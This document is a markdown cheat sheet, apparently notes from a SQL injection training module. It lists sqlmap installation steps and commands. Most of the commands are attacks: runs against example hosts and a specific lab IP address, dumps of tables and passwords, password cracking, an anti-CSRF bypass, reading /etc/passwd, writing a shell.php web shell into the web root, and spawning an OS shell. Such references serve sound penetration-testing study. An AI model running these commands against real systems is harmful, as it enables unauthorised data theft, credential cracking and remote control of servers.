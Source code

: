 # SQL Attacking 

* SQLMAP Intallation  
sudo apt install sqlmap  
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

* to run SQLMap
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch

sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
sqlmap -r req.txt


sqlmap -u "http://46.101.23.188:30063/case2.php" --batch
sqlmap 'http://46.101.23.188:30063/case2.php' --data 'uid=1'

# Cheat Sheet
The cheat sheet is as a useful command reference for this module.

Command	Description
sqlmap -h	View the basic help menu
sqlmap -hh	View the advanced help menu
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch	Run SQLMap without asking for user input
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'	SQLMap with POST request
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'	POST request specifying an injection point with an asterisk
sqlmap -r req.txt	Passing an HTTP request file to SQLMap
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'	Specifying a cookie header
sqlmap -u www.target.com --data='id=1' --method PUT	Specifying a PUT request
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt	Store traffic to an output file
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch	Specify verbosity level
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"	Specifying a prefix or suffix
sqlmap -u www.example.com/?id=1 -v 3 --level=5	Specifying the level and risk
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba	Basic DB enumeration
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb	Table enumeration



sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname	Table/row enumeration
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"	Conditional enumeration
sqlmap -u "http://www.example.com/?id=1" --schema	Database schema enumeration
sqlmap -u "http://www.example.com/?id=1" --search -T user	Searching for data
sqlmap -u "http://www.example.com/?id=1" --passwords --batch	Password enumeration and cracking
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"	Anti-CSRF token bypass
sqlmap --list-tampers	List all tamper scripts
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba	Check for DBA privileges
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"	Reading a local file
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"	Writing a file
sqlmap -u "http://www.example.com/?id=1" --os-shell	Spawning an OS shell
https://guides.github.com/features/mastering-markdown/
